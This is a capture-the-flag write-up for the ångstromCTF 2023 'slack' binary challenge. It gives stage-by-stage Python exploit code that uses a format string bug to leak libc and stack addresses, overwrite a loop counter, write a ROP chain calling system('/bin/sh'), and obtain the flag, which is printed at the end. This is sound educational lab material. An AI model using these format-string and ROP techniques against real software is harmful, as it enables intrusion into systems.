







# ångstromCTF 2023 - slack



You can download challenges here: [slack.zip](slack.zip)

# 1. Find bug



In IDA, we can see there is a **Format String** bug in the for loop. It allows us to input just 14 bytes and then print that format string for us. All the defences are up, too:



# 2. Idea

Because Relro is Full so we cannot attack @got in this case. The first thing I want to do is leak stack and libc, then make the for loop unlimited because inputting just 14 bytes makes it hard to enter our payload. The idea is to change the var i to a negative number by changing highest byte of var i to 0x80 so it will look like `0x800000xx` and it passes the check leading to unlimited for loop.

With format string, we can input all bytes of payload one by one (inputting 14 bytes limited our choice) to create a simple rop and then change i back to a large positive number to break the for and make main return to our rop.

Summary:
- Stage 1: Leak stack & libc address
- Stage 1: Change i to negative number
- Stage 2: Input ROP chain
- Stage 3: Change i back to positive number

# 3. Exploit

### Stage 1: Leak stack & libc address

Leaking addresses is a simple task:

```python
payload = b'%21$p%25$p'
sla(b'Professional): ', payload)

p.recvuntil(b'You: ')
datas = p.recvline()[:-1].split(b'0x')
libc_leak = int(datas[1], 16)
libc.address = libc_leak - 0x29d90
stack_leak = int(datas[2], 16)
i_addr = stack_leak - 0x180
info("Libc leak: " + hex(libc_leak))
info("Libc base: " + hex(libc.address))
info("Stack leak: " + hex(stack_leak))
info("var i @: " + hex(i_addr))
```

I believe you can calculate libc base address and address of var i yourself.

### Stage 2: Change i to negative number

Now we have address of var i, we just need to change 2 bytes value of `a pointer which point to another stack` into address of var i. That pointer looks as the highlighted address below:



So we will change value of that pointer but just 2 bytes, from 0xe1b3 to 2 bytes of var i + 3, which is 0xddd8+3 = 0xdddb (address of var i in the picture above is 0x007fffffffddd8 with 4 bytes in length):

```python
payload1 = f'%{(i_addr & 0xffff) + 3}c%25$hn'.encode()
payload1 = payload1.ljust(13, b'P')
```

Then, in the address 0x007fffffffdf58, we can see the address of var i is written on the stack:



So in the second write, we will change that highest byte of var i to 0x80 to turn var i into a negative number:

```python
payload2 = f'%{0x80}c%55$hn'.encode()

sla(b'Professional): ', payload1 + payload2)
```

Here is after we set var i to negative number:



Note that I send payload1 and payload2 at the same time because changing 2 byte will make payload length upto 13 bytes and fgets allows us just 13 bytes so we will concate 2 payload and send together so that the payload2 will automatically forward to the last fgets. After we succeed overwriting i, we now have ability to use **Format String** unlimited. 

### Stage 3: Input ROP chain

Before we write payload to stack, we need to build it first:

```python
pop_rdi = libc.address + 0x00000000001b9815
ret = pop_rdi + 1
rop_payload = flat(
	ret,
	pop_rdi, next(libc.search(b'/bin/sh')),
	libc.sym['system']
	)
```

Now, we will use the same format of previous stage to write all bytes of payload one by one:

```python
saved_rip_addr = stack_leak - 0x110
for i in range(len(rop_payload)):
	payload1 = f'%{(saved_rip_addr & 0xffff) + i}c%25$hn'.encode()
	payload1 = payload1.ljust(13, b'P')
	
	if rop_payload[i] == 0:
		payload2 = b'%55$hhn'
	else:
		payload2 = f'%{rop_payload[i]}c%55$hhn'.encode()
	sl(payload1 + payload2)
```

After that, we are ready for a return from main().

### Stage 4: Change i back to positive number

Again, with the same format, we will change the highest byte of var i from 0x80 to whatever number between 0 and 0x7f to make it the large positive number and make for loop break:

```python
# Change stack to i address
payload1 = f'%{(i_addr & 0xffff) + 3}c%25$hn'.encode()
payload1 = payload1.ljust(13, b'P')

# Change i
payload2 = f'%{0x1}c%55$hn'.encode()
sla(b'Professional): ', payload1 + payload2)
```

Before we end, there is one thing to note, it's the sendline function. Why don't I use sendlineafter but sendline? It's because the timeout of redpwn, just 20 seconds so if we wait until we receive the string and send, it would take a ton of time. So the best way is send continuously and it's safe because program use fgets(), not read().

Solve script: [solve.py](solve.py)

# 4. Get flag



Flag is `actf{succesfu1_onb0arding_f99454d9a2f42632}`